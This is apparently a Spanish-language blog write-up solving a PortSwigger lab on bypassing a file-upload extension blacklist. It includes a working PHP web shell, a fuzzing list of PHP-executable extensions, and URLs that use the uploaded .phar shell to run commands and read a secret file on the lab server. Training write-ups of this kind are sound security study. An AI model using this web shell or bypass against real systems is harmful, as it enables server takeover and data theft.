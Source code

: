 ```yaml
---
title: "Web shell upload via extension blacklist bypass"
description: "Laboratorio de Portswigger sobre File Upload"
date: 2024-11-25 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - File Upload
tags:
  - Portswigger Labs
  - File Upload
  - Web shell upload via extension blacklist bypass
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `función` de carga de imágenes `vulnerable`, ciertas `extensiones` de `archivo` están `blacklisteadas`, pero esta defensa puede ser eludida debido a una falla fundamental en la `configuración` de esta `blacklist`. Para resolver el laboratorio, debemos subir una web shell básica en `PHP`, utilizarla para `extraer` el `contenido` del archivo `/home/carlos/secret` y enviar este secreto utilizando el botón proporcionado en la barra del laboratorio. Podemos `iniciar sesión` con nuestra propia cuenta utilizando las siguientes credenciales: `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/File-Upload-Lab-4/image_1.png)

Pulsamos en `My account` e `iniciamos sesión` con las credenciales `wiener:peter`

![](/assets/img/File-Upload-Lab-4/image_2.png)

Vemos que existe un `campo` de `subida` de `archivos`

![](/assets/img/File-Upload-Lab-4/image_3.png)

Si `inspeccionamos` con `donde` se `aloja` la `imagen` vemos que es en la ruta `/resources/images`

![](/assets/img/File-Upload-Lab-4/image_4.png)

Nos creamos un archivo llamado `shell.php` y lo `subimos`

```
<?php
    echo "<pre>" . system($_REQUEST['cmd']) . "</pre>";
?>
```

Al subir el archivo nos sale un error

![](/assets/img/File-Upload-Lab-4/image_5.png)

Subimos el archivo nuevamente y capturamos la petición con Burpsuite

![](/assets/img/File-Upload-Lab-4/image_6.png)

En Hacktricks hay una lista de extensiones que pueden interpretar código php [https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology), nos creamos una lista con estas extensiones

```
# cat extensions.txt 
.php
.php2
.php3
.php4
.php5
.php6
.php7
.phps
.phps
.php
.phtm
.phtml
.pgif
.shtml
.htaccess
.phar
.inc
.hphp
.ctp
.module
```

Mandamos la petición al intruder de Burpsuite y seleccionamos la extensión

![](/assets/img/File-Upload-Lab-4/image_7.png)

Nos vamos a Payloads, pulsamos en Load, cargamos la lista de extensiones, en la parte inferior de esta ventana desmarcamos el `Payload encoding` y pulsamos en Start attack

![](/assets/img/File-Upload-Lab-4/image_8.png)

Abrimos nuevamente el `inspector` de `chrome` y vemos que el archivo subido se aloja en `/files/avatars`

![](/assets/img/File-Upload-Lab-4/image_9.png)

Desde el repeater de Burpsuite he ido mandando los payloads manualmente hasta que he dado con el .phar el cual si me ha interpretado `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=whoami`, he tenido que hacerlo de esta forma porque los archivos subidos se van eliminando

![](/assets/img/File-Upload-Lab-4/image_10.png)

`Listamos` el `contenido` de la `home` de carlos `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=ls%20/home/carlos`

![](/assets/img/File-Upload-Lab-4/image_11.png)

Obtenemos el contenido del archivo secret `https://0a20003e03543e85818a53bf005100f3.web-security-academy.net/files/avatars/shell.phar?cmd=cat%20/home/carlos/secret`

![](/assets/img/File-Upload-Lab-4/image_12.png)

`Submiteamos` la `solución`

![](/assets/img/File-Upload-Lab-4/image_13.png)
